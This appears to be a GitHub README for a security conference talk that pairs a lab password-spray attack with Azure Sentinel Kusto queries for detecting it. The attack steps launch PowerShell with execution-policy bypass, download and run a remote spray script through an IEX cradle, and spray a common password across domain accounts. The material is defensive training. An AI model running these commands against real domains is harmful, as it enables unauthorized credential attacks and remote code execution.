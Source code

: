 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conferecne Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- Link to slides

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```

The next query uses some underlying accounts, preconfigured for easy detections. Boom - failed logins on known accounts? Guess what, easy detect.

```
SecurityEvent
| where EventID == 4625
// remember the deception account naming conventions? 
| where Account contains "DOLabs"
| project TimeGenerated , Activity , Account
```

Luis and Heloise are both canary accounts we know and maintain. Let's check on them.

```
SecurityEvent
| where EventID == 4624 or EventID == 4625 or EventID == 4776
| where Account contains "Heloise" or Account contains "luis"
| project Activity, Account, Computer, IpAddress
```

Ever seen a password spray in real time logs? 

```
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(24h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

Let's look at some source IP addresses.

```
SecurityEvent
| where EventID == 4625 or EventID == 4776
| summarize count() by IpAddress
```

## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- Link to slides

### Some additional commands, listed below, can help with attribution. Though, what can we actually do with this info? 

Geo-lookup!!!

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = union Event, SecurityEvent
| where EventID in ("4624","4625")
    and AccountType != "Machine"
    and IpAddress != "-" 
| project IpAddress, TimeGenerated, Activity, EventID;
IPs
| evaluate ipv4_lookup(ipdata, IpAddress, network)
| summarize Count = count() by IpAddress, network, country_iso_code, country_name
| order by Count 
```

Let's check some outbound connections...

```kusto
let ipdata = externaldata (network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = SysmonParser
| where EventID == 3
| where dst_ip != '168.63.129.16'
| summarize by UserName, Computer, tostring(process_path), tostring(src_ip), tostring(src_port), tostring(dst_ip), tostring(dst_port),  tostring(network_protocol), TimeGenerated;
IPs
| evaluate ipv4_lookup(ipdata, dst_ip, network)
| summarize Count = count() by Computer, dst_ip, process_path, country_name
| sort by Count
```

How about a quick peek at the usernames landing in our logs?

```kusto
SecurityEvent
| where EventID == 4625
| summarize count() by TargetAccount
| order by count_
```

Let's take a look at arrays associated with the users guessed by specific source IP addresses.

```kusto
union Event, SecurityEvent
| where TimeGenerated < ago(30m)
| where EventID == 4625 or EventID == 4776
| project Account , IpAddress
| summarize USERs = make_set(Account) by IpAddress
| where USERs[1] != ""
```

This is a failed login perspective based on a timechart. We may have already seen this :D.

```kusto
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(4h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```




Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam